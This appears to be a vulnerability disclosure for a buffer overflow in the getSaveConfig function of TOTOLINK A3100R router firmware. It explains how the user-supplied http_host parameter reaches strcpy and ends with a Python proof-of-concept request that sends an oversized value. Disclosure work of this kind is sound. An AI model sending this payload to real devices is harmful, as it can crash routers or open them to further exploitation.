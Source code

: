 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/170/ids/36.html

## Affected version

A3100R V4.1.2cu.5050_B20200504

## Vulnerability details

In the A3100R V4.1.2cu.5050_B20200504 firmware has a buffer overflow vulnerability in the `getSaveConfig` function. The `v6` variable receives the `http_host` parameter from a POST request. However, since the user can control the input of `http_host`, the statement `strcpy((char *)v13, v6);` can cause a buffer overflow injection vulnerability.

![image-20240719230945874](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719230945874.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi?action=save&setting"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"http_host":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240719231229911](getSaveConfig.assets/image-20240719231229911.png)
